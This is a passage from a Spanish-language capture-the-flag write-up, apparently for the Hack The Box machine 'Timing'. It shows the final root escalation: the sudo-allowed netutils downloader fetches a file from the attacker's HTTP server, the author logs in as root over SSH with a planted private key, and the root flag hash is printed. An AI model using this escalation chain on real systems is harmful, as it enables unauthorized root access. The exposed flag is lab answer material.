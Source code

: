 ```console
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Volvemos a ejecutar el script y le pasamos la URL de nuestro recurso:

```console
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.40/wild
Initializing download: http://10.10.16.40/wild
File size: 571 bytes
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 571 byte in 0 seconds. (1.86 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
```

Nos llega la petición al servidor...

```console
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.135 - - [08/Apr/2022 17:02:54] "GET /wild HTTP/1.0" 200 -
10.10.11.135 - - [08/Apr/2022 17:02:55] "GET /wild HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
```

Ahora deberíamos ser capaces de conectarnos por SSH a la máquina como el usuario **`root`**, haciendo uso de nuestra clave privada.
Primero vamos a copiar la clave en nuestro directorio local **`~/.ssh/`** y asignarle los permisos adecuados.

```console
p3ntest1ng:~$ cp pwnkey ~/.ssh/pwnkey
p3ntest1ng:~$ chmod 600 ~/.ssh/pwnkey
p3ntest1ng:~$ ssh -i ~/.ssh/pwnkey root@10.10.11.135
...[snip]...
root@timing:~# ls
axel  netutils.jar  root.txt
root@timing:~# cat /root/root.txt
2eba350c0f2927d1ed53c2ddcd989901
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠